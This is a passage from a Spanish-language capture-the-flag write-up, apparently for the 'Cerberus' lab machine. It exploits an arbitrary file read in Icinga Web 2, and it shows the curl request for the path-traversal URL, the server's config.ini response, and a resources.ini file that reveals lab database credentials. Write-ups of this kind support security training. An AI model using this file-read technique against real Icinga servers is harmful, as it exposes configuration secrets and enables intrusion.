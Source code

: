 
Podemos leer archivos del servidor, ahora debemos buscar algún archivo que pueda tener credenciales para esta interfaz, si buscamos en la documentación de Icinga2 veremos que la configuración de la interfaz web se encuentra en `/etc/icingaweb2/config.ini`. Introduciendo dicha ruta obtendremos el archivo que buscamos

```bash
*   Trying 10.10.11.205:8080...
* Connected to icinga.cerberus.local (10.10.11.205) port 8080 (#0)
> GET /icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/config.ini HTTP/1.1
> Host: icinga.cerberus.local:8080
> User-Agent: curl/8.1.2
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Wed, 02 Aug 2023 17:14:45 GMT
< Server: Apache/2.4.52 (Ubuntu)
< Cache-Control: public, max-age=1814400, stale-while-revalidate=604800
< Etag: 43c7b-11d-601f3bbe08c40
< Last-Modified: Wed, 02 Aug 2023 17:10:01 GMT
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/plain;charset=UTF-8
< 
[global]
show_stacktraces = "1"
show_application_state_messages = "1"
config_backend = "db"
config_resource = "icingaweb2"
module_path = "/usr/share/icingaweb2/modules/"

[logging]
log = "syslog"
level = "ERROR"
application = "icingaweb2"
facility = "user"

[themes]

[authentication]
* Connection #0 to host icinga.cerberus.local left intact
```

No solo está ese fichero, si no otros como `resources.ini`, `authentication.ini` y `resources.ini`, justamente revisando el último mencionado encontramos credenciales

```ini
[icingaweb2]
type = "db"
db = "mysql"
host = "localhost"
dbname = "icingaweb2"
username = "matthew"
password = "IcingaWebPassword2023"
use_ssl = "0"
```
{: file="resources.ini"}
